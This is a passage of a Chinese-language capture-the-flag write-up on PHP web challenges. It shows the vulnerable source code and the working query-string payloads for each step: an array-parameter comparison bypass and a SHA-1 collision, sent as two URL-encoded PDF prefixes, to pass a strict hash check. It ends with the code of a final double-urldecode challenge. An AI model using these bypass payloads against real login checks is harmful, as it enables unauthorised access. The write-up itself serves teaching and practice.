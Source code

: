 第二步：数组绕过

```
?name[]=1&password[]=2
```

提示`baby_revenge.php`，过滤了数组，所以不能用数组绕了，那就强碰撞

```php
<?php
error_reporting(0);

$flag=getenv('fllag');
if (isset($_GET['name']) and isset($_GET['password'])) 
{
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if(is_array($_GET['name']) || is_array($_GET['password']))
        die('There is no way you can sneak me, young man!');
    else if (sha1($_GET['name']) === sha1($_GET['password'])){
      echo "Hanzo:It is impossible only the tribe of Shimada can controle the dragon<br/>";
      die('Genji:We will see again Hanzo'.$flag.'<br/>');
    }
    else
        echo '<p>Invalid password.</p>';
}else
    echo '<p>Login first!</p>';
highlight_file(__FILE__);
?> 
```

第三步：由于sha1是强比较，利用sha1碰撞，传入两个SHA1值相同而不一样的pdf文件

```
?name=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&password=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1 
```

提示：`here_s_the_flag.php`，最后一步了

```php
 <?php
$flag=getenv('flllllllllag');
if(strstr("hackerDJ",$_GET['id'])) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET['id'] = urldecode($_GET['id']);
if($_GET['id'] === "hackerDJ")
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: $flag </p>";
}
highlight_file(__FILE__);
?> 
```
